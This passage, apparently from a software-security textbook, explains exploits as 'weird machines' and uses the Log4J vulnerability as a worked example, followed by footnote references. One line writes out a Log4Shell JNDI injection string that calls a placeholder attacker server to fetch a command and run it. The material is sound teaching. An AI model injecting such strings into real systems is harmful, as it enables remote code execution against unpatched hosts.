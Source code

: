 Finding and executing a weird machine like this one is proof-by-counterexample for the insecurity of a program.
To quote Bratus et. al., exploits demonstrate[^WeirdMachine]:

> ...an *execution model and mechanism* that is explicitly or implicitly present in the attacked environment - unbeknownst to most of its users or administrators...The attack then comes as a *constructive proof* that such unforeseen computations are indeed possible, and therefore as *evidence* that the target actually includes the described [weird] execution model.
>
> *Exploit programming* has been a productive empirical study of these accidental or unanticipated machines and models and of the ways they emerge from bugs, composition, and cross-layer interactions.

For readers wanting a formal proof, Dullien further solidifies the weird machine model with mathematical rigor[^FormalWeirdness]. Notably, Dullien's work differs from our coverage of exploitation in two interesting ways:

1. He offers a formal proof of *non-exploitability* for a theoretical program's finite state machine. To demonstrate that such a proof is possible to construct under specific constraints, even if impractical.

    * We do not attempt to prove non-exploitability for any programs in this book. Regardless - this is a powerful idea significant to our understanding computer security as a science.

2. He demonstrates the exploitability (proof-by-counterexample) of a different implementation of that same theoretical program *without* altering control flow.

    * We won't demonstrate any exploit maintaining perfect control flow integrity in this book. Just know that "data-oriented attacks" are possible (even if uncommon) examples of weird machine programming.

> **Weird Machines are Universal**
>
> There's more than one way to skin a ~~cat~~ state machine.
> We contextualized the above diagram within binary exploitation, but it would accurately represent memory-safe command injection.
> In fact, Java's Log4J CVE-2021-44228[^Log4J] enables a stable, widely applicable weird machine with similar Remote Code Execution (RCE) semantics.
>
> At a high-level, Log4J exploitation works like this[^ComputerphileLog4J]:
>
> * Production-grade software leverages logging frameworks to aid with error diagnosis, anomaly detection, and system monitoring. Apache Log4j is a leading logging library for Java, so it's nearly ubiquitous in-the-wild.
>
> * Log4j supports a macro-like syntax for meta-programming of log messages. For example, the string `${java:version}` would be expanded and logged as `Java version X.Y.Z_XYZ` - fingerprinting the host's currently installed Java software.
>
> * Many log sites in a codebase write external, attacker-controlled values directly into the logged string. A host's User Agent is one example, since it can be configured. Coupled with expansion/meta-programming, we lose a **non-repudiation** property - the attacker controls log message contents and can falsify data to cover their tracks.
>
> * It gets worse: we also lose all assurance as well. As of 2013, Log4j offers integration with the Java Naming and Directory Interface (JNDI). This functionality, intended for remote lookups, allows fetching and running Java classes from a remote server. If an attacker can get a string like `${jndi:ldap://evildomain.net:1337/Basic/Command/Base64/SOME_BASE64_CMD}` into a log[^HutchinsLog4J], the victim's host will connect to an attacker-controlled server, fetch an arbitrary malicious command, and execute it locally.
>
> In this example of command injection, the weird machine is programmed with a specially crafted string addressing an attacker-controlled server.
> Untrusted log data becomes code executed with the privileges of the victim process.
>
> The vulnerability is not a memory safety violation, it's a configuration flaw: an unintended composition of esoteric features that should have been disabled by default.

[^ProjZero2021Review]: [*The More You Know, The More You Know You Don't Know*](https://googleprojectzero.blogspot.com/2022/04/the-more-you-know-more-you-know-you.html). Maddie Stone, Google Project Zero (2022).
[^DoD]: [*DoD Software Assurance Initiative*](https://www.acqnotes.com/Attachments/DoD%20Software%20Assurance%20Initiative.pdf). Mitchell Komaroff, Kristin Baldwin (2005, Public Domain)
[^HACMSMain]: [*High-Assurance Cyber Military Systems (HACMS) (Archived)*](https://www.darpa.mil/program/high-assurance-cyber-military-systems). DARPA (Accessed 2023).
[^HACMSPaper]: [*The HACMS program: using formal methods to eliminate exploitable bugs*](https://www.ncbi.nlm.nih.gov/pmc/articles/PMC5597724/pdf/rsta20150401.pdf). Kathleen Fisher, John Launchbury, Raymond Richards (2017).
[^Galois]: [*HACMS (High-Assurance Cyber Military Systems)*](https://galois.com/project/hacms-high-assurance-cyber-military-systems/). Galois (Accessed 2023).
[^SetNote]: Note the behavior of any given program of sufficient complexity, in all likelihood, is a large set that has *some* overlap with both the malicious and undefined sets. Remember we're talking about all possible executions - for any possible input - and there is no absolute security. Nor absolute assurance.
[^ExpSub]: This assumption doesn't always hold. For example, command injection vulnerabilities (e.g. Log4J) make for extremely reliable and powerful exploits yet their effects are defined as far as a language specification is concerned. We still have a well-defined program that faithfully executed the provided command - it just wasn't the author-intended command!
[^DirTrav]: [*Path Traversal*](https://owasp.org/www-community/attacks/Path_Traversal). OWASP (Accessed 2023).
[^UBNote]: Recall the concept of a UB "time bomb" from Chapter 3 - a program can work as expected despite relying on UB. At least until a subtle change in toolchain or a specially crafted input triggers it.
[^WeirdMachine]: [*Exploit Programming: From Buffer Overflows to "Weird Machines" and Theory of Computation*](https://www.usenix.org/system/files/login/articles/105516-Bratus.pdf). Sergey Bratus, Michael Locasto, Meredith Patterson, Len Sassaman, and Aanna Shubina (2011).
[^IFSM]: What we call the "normal machine" is what Dullien[^FormalWeirdness] refers to as the *Intended Finite State Machine (IFSM).* We can think of any software program as an *approximation* of an abstract IFSM (here, the states of an ideal POSIX web server) emulated atop a CPU's low-level FSM (as specified by architecture manuals). "Approximation" because programs have bugs. The subset of bugs which are vulnerabilities allow breaking out of IFSM states and into emergent, weird FSM states.
[^PosixSock]: [*Berkeley sockets*](https://en.wikipedia.org/wiki/Berkeley_sockets). Wikipedia (Accessed 2022).
[^FormalWeirdness]: [*Weird Machines, Exploitability, and Provable Unexploitability*](https://ieeexplore.ieee.org/stamp/stamp.jsp?arnumber=8226852). Thomas Dullien (2017).
[^TuringComplete]: [*Turing Completeness*](https://en.wikipedia.org/wiki/Turing_completeness). Wikipedia (Accessed 2022).
[^Log4J]: [*Apache Log4j Vulnerability Guidance*](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance). CISA (2021).
[^ComputerphileLog4J]:  [*Log4J & JNDI Exploit: Why So Bad?*](https://www.youtube.com/watch?v=Opqgwn8TdlM). Computerphile (2021).
[^HutchinsLog4J]:  [*Log4j (CVE-2021-44228) RCE Vulnerability Explained*](https://www.youtube.com/watch?v=0-abhd-CLwQ). Marcus Hutchins (2021).